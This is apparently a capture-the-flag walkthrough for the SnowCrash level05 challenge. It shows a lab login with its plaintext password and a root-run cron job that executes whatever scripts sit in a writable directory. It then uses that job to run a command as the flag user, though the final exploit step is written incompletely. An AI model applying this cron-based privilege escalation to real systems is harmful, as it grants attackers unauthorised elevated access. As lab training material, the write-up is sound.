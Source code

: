 
as usual: su level05
Reconnaissance, Enumeration, nothing interesting encountered

ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab apparantley
that runs At every 2nd minute, [check](https://crontab.guru/#*/2_*_*_*_*)

heading back to the path
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

-t flag: Specifies a process's maximum running time, in seconds.

bash -x: The -x option starts a BASH shell in tracing mode.
	run the entire script in debug mode. Traces of each command

 echo "getflag > /tmp/flag"
watch cat /tmp/flag


